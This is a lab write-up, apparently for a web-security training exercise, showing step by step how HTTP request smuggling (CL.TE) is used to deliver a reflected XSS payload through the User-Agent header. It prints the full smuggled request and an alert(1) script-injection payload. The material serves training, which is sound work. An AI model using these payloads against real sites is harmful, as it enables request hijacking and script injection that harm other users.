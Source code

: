 # Exploiting HTTP request smuggling to deliver reflected XSS

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

---

step 1

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](images/images_lab10/lab10_test_first_payload.jpg)

step 2

inspect comment section

![screenshot](images/images_lab10/lab10_inspect_comment_section.jpg)

step 3
intercept post

![screenshot](images/images_lab10/lab10_intercept_post_containng_comment.jpg)

step 4
add payload
`"><script>alert(1)</script><"` into User-Agent

![screenshot](images/images_lab10/lab10_add_alert_payload.jpg)

after forward request your browser come with pop up

![screenshot](images/images_lab10/lab10_alert_pop_up.jpg)

inspect the pop up element

![screenshot](images/images_lab10/lab10_inspect_element_alert_pop_up.jpg)

step 5
final payload to solve lab

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script><"
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](images/images_lab10/lab10_final_payload.jpg)

![screenshot](images/images_lab10/lab10_lab_solved.jpg)
